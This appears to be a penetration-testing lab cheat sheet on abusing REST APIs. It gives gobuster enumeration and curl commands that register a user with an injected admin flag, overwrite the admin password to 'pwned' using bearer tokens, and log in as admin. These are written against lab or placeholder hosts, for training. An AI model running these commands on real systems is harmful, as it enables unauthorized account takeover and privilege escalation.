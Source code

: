 # 💻 Abusing APIs

_Representational State Transfer_ (REST) is used for a variety of purposes, including authentication.

Normally API patterns:

```
/api_name/v1
```

With gobuster: Create a `pattern` file:

```
{GOBUSTER}/v1
{GOBUSTER}/v2
```

And execute gobuster:

```bash
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirb/big.txt -p pattern
```

Then use curl to access the API:

```bash
curl -i http://<ip>/users/v1
```

After getting the users API we can further check for more:

```bash
gobuster dir -u http://<ip>/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```

If we get 405 METHOD NOT ALLOWED,etc we can try other methods.&#x20;

We can try POST Method: `-d` for JSON data `-H` for Header

```bash
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://<ip>/users/v1/login
```

Then we can add more _data_ to fit the API:

```bash
curl -d '{"password":"lab","username":"admin","email":"admin@htb.com","admin":"True"}' -H 'Content-Type: application/json' http://<ip>/users/v1/register
```

Then to target password API:

```bash
curl  \
  'http://<ip>/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'
```

When editing values use _PUT_ request

```bash
curl -X 'PUT' \
  'http://<ip>/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```

Then login:

```bash
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```

To send curl request to **Burp Suite**:

```
--proxy 127.0.0.1:8080
```

Site Map can be used to organize API testing
